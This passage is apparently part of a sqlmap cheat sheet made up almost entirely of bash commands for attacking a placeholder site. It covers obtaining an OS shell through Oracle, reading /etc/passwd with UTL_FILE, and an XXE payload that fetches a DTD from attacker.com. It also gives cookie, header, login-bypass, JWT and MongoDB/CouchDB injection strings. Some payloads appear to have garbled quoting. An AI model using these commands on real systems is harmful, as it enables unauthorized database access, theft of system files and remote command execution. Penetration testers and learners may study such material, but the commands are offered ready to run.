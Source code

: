 #### Oracle Advanced Exploitation
```bash
# Oracle Java exploitation
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --os-shell

# Oracle UTL_FILE exploitation
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --sql-query="SELECT UTL_FILE.GET_LINE(UTL_FILE.FOPEN('/etc','passwd','R'),1) FROM dual"

# Oracle XML exploitation
sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --sql-query="SELECT extractvalue(xmltype('<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM \"http://attacker.com/evil.dtd\"> %remote;]>'),'/l') FROM dual"
```

### Advanced Authentication Bypass

#### Session-based Injection
```bash
# Cookie-based injection
sqlmap -u "http://target.com/dashboard.php" --cookie="user_id=1*&session=abc123" --level=2

# Header-based injection
sqlmap -u "http://target.com/api/data" --headers="X-User-ID: 1*" --level=3

# Authentication bypass
sqlmap -u "http://target.com/login.php" --data="username=admin'/*&password=anything" --auth-type=basic --auth-cred="admin:admin"
```

#### JWT Token Injection
```bash
# JWT payload injection
sqlmap -u "http://target.com/api/user" --headers="Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiMSciLCJleHAiOjE2MzQ1Njc4OTB9.signature" --level=3

# JWT parameter injection
sqlmap -u "http://target.com/api/search" --data='{"token":"jwt_token","query":"test'''"}' --headers="Content-Type: application/json"
```

### NoSQL Injection with SQLMap
```bash
# MongoDB injection
sqlmap -u "http://target.com/api/users" --data='{"username":"admin","password":{"$ne":"1"}}' --headers="Content-Type: application/json" --technique=B

# CouchDB injection
sqlmap -u "http://target.com/api/search" --data='{"selector":{"name":"admin'''"},"fields":["name","password"]}' --headers="Content-Type: application/json"
```
